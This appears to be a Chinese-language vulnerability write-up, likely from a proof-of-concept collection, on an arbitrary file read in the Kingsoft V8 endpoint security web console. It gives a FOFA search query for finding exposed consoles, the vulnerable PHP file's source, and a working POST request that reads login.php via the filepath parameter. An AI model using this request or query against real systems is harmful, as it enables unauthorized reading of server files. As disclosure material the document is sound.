 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## FOFA

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现

登录页面

![image-20220525150449778](./images/202205251504895.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```



文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

由于不能出现 `..` ，所以只能读取web目录下的文件

```
POST /receive_file/get_file_content.php

filepath=login.php
```

![image-20220525150700239](./images/202205251507315.png)